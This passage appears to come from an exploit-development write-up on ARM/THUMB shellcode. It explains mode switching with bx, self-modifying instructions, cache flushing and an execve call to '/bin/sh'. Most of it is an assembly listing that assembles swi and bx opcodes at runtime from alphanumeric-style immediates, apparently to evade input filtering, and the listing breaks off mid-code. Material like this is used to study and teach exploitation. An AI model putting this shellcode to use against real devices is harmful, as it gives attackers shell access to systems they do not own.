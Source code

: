 To jump from THUMB mode to ARM mode we can use `bx pc` instruction and from ARM to THUMB we can use `bx r6` so we need to load the address of the location we need to jump before that .

So we will first jump to thumb mode change the code , set the correct register values to flash the cache then jump to arm mode flush the cache change to thumb mode set "/bin/sh" and call execve syscall .

This is the finished shellcode , It is not that optimized but does the job .

```nasm
 # we are asuming that r0=0
.code 16
	muls r1 , r0  # r1=0
	muls r2 , r0  # r2=0
	mov r0 , pc   # r0=pc

	muls r5, r2      # the following code are for inserting
	adds r1, 0x43    # swi and bx instructions
	subs r1, 0x41    # 2 0 159 239     ->      swi 0x9f0002
	adds r5, 0x4d    # 22 255 47 225   ->      bx r6
	adds r5, 0x41  
	strb r1 ,[ r0 , r5 ]

	muls r5 , r2
	muls r1 , r2
	adds r5, 0x4d
	adds r5, 0x42
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	muls r1, r2
	adds r1, 0x61
	adds r1, 0x70
	subs r1, 0x32
	adds r5, 0x4d
	adds r5, 0x43
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	adds r1, 0x50
	adds r5, 0x4d
	adds r5, 0x44
	strb r1 ,[ r0 , r5 ]


	muls r5, r2
	muls r1, r2
	adds r1, 0x61
	subs r1, 0x4b
	adds r5, 0x4d
	adds r5, 0x45
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	muls r1, r2
	adds r1, 0x7a
	adds r1, 0x41
	adds r1, 0x44
	adds r5, 0x4d
	adds r5, 0x46
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	muls r1, r2
	adds r1, 0x7a
```